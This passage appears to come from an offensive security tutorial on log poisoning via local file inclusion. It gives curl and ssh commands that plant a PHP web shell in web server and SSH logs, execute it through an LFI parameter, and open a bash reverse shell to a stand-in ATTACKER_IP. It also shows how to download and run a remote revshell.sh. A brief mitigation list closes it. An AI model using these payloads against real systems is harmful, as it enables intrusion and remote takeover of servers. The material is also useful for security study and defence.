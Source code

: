 - Example 1 – User-Agent injection (Apache)

```
curl "http://example.com/" \
-A "<?php system($_GET['cmd']); ?>"
```

- Example 2 – X-Forwarded-For header injection

```
curl "http://example.com/" \
-H "X-Forwarded-For: <?php system($_GET['cmd']); ?>"
```

- Example 3 – URL path injection (Nginx)

```
curl "http://example.com/<?php system($_GET['cmd']); ?>"
```

- Example 4 – SSH auth.log poisoning

```
ssh "<?php system($_GET['cmd']); ?>"@IP
```

(Fails authentication, but payload is stored in ***/var/log/auth.log***)


<h4>3. Trigger log file execution via LFI</h4>

Access the poisoned log:

```
curl "http://example.com/page.php?file=/var/log/apache2/access.log&cmd=id"

```

<h4>4. Gain reverse shell</h4>

Inject reverse shell payload:

```
curl "http://example.com/page.php?file=/var/log/apache2/access.log&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/ATTACKER_IP/4444+<%261'"
```

**Alternative Method**

Instead of executing directly, upload or download a malicious script via log poisoning:

```
curl "http://example.com/" -A "<?php system('wget http://ATTACKER_IP/revshell.sh'); ?>"
curl "http://example.com/" -A "<?php system('chmod +x revshell.sh'); ?>"
curl "http://example.com/" -A "<?php system('./revshell.sh'); ?>"

```

**Mitigation**

- Do not allow log files to be accessed via the web.
- Never execute or include log files as code.
- Keep logs outside the web server’s root directory.




---
